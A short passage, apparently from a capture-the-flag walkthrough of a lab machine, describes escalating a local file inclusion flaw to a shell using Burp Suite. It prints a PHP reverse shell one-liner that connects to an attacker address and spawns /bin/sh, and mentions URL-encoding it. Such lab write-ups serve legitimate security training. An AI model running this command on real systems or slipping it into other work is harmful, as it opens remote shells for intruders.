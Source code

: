 Now I use the following PHP reverse shell one-liner from pentestmonkey.net
```
php -r '$sock=fsockopen("10.11.11.11",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![LFI to reverse shell](/Images/thm_dogcat_burpsuit_2.jpg)

I had to URL encode all characters in the php reverse shell code to get it to work properly.

![URL encoded php reverse shell](/Images/thm_dogcat_burpsuit_3.jpg)
